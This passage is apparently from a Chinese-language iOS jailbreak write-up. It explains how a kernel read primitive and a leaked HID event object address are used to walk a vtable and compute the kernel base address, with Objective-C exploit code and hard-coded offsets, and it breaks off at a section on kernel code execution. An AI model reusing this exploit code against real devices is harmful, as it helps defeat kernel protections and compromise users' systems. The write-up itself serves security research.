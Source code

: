 ```
    // And print the final ASCII bit.
    printf (" | %s\n", buff);
}

```

表24：打印内存内容

**内核信息泄露**

内核信息泄露是在内核读基础之上实现的，利用过程如下：

1.  利用前面提到的内核信息泄露漏洞得到某个内核对象的真实内核地址。
2.  然后利用内核读，读取对象的内容内容。
3.  从读到的内容中，取出第一个 mach_vm_address_t 大小的值，这个值代表对象虚函数表的地址。
4.  再次利用内存读，读虚函数表的内容。
5.  从读到的虚函数表的内容中选取一个函数指针。

最后，利用函数指针计算出内核的起始地址。这种方式没办法得到内核的结束地址，但是不影响越狱。

```
- (mach_vm_address_t)getKernelBaseAddresses:
(mach_vm_address_t)hid_event_obj_kaddress
{
    // HID Event Object Memory Content
    unsigned char *hid_event_obj_content =
    [self readKernelMemoryAtAddress:hid_event_obj_kaddress + 0x1 size:0x100];
    unsigned long long *hid_event_service_queue_obj_ptr =
    (unsigned long long *)(hid_event_obj_content + 0xE0);

    // HID Event Service Queue Memory Content
    unsigned char *hid_event_service_queue_obj_content =
    [self readKernelMemoryAtAddress:*hid_event_service_queue_obj_ptr size:0x80];

    unsigned long long *hid_event_service_queue_vtable_ptr_0x10 =
    (unsigned long long *)(hid_event_service_queue_obj_content);
    unsigned char *hid_event_service_queue_vtable_content_0x10 =
    [self readKernelMemoryAtAddress:*hid_event_service_queue_vtable_ptr_0x10 size:0x18];

    unsigned long long *fifth_function_ptr_of_vtable =
    (unsigned long long *)(hid_event_service_queue_vtable_content_0x10 + 0x10);

    mach_vm_address_t kernel_base =
    ((*fifth_function_ptr_of_vtable - (0x200 << 12)) & 0xffffff80ffe00000) + 0x2000;

    return kernel_base;
}

```

表25：计算内核基地址

**内核任意代码执行**

内核任意代码执行与内核读的利用思路相同，只是细节上有些差别，利用过程为：
